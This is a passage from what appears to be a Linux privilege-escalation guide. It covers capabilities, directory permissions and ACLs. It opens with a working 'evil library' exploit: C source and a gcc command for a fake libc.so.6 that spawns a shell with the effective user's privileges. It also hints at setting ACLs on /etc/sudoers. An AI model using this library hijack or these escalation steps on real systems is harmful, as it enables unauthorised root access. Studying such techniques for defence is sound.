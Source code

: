 Then create an evil library in `/var/tmp` with `gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6`

```
#include<stdlib.h>
#define SHELL "/bin/sh"

int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
 char *file = SHELL;
 char *argv[] = {SHELL,0};
 setresuid(geteuid(),geteuid(), geteuid());
 execve(file,argv,0);
}
```

## Capabilities

Linux capabilities provide a subset of the available root privileges to a process. This effectively breaks up root privileges into smaller and distinctive units. Each of these units can then be independently granted to processes. This way the full set of privileges is reduced, decreasing the risks of exploitation.
Read the following page to learn more about capabilities and how to abuse them:

## Directory permissions

In a directory, the bit for "execute" implies that the user affected can "cd" into the folder.
The "read" bit implies the user can list the files, and the "write" bit implies the user can delete and create new files.

## ACLs

Access Control Lists (ACLs) represent the secondary layer of discretionary permissions, capable of overriding the traditional ugo/rwx permissions. These permissions enhance control over file or directory access by allowing or denying rights to specific users who are not the owners or part of the group. This level of granularity ensures more precise access management. Further details can be found .

Give user "kali" read and write permissions over a file:

```
setfacl -m u:kali:rw file.txt
#Set it in /etc/sudoers or /etc/sudoers.d/README (if the dir is included)

setfacl -b file.txt #Remove the ACL of the file
```

Get files with specific ACLs from the system:

```
getfacl -t -s -R -p /bin /etc /home /opt /root /sbin /usr /tmp 2>/dev/null
```
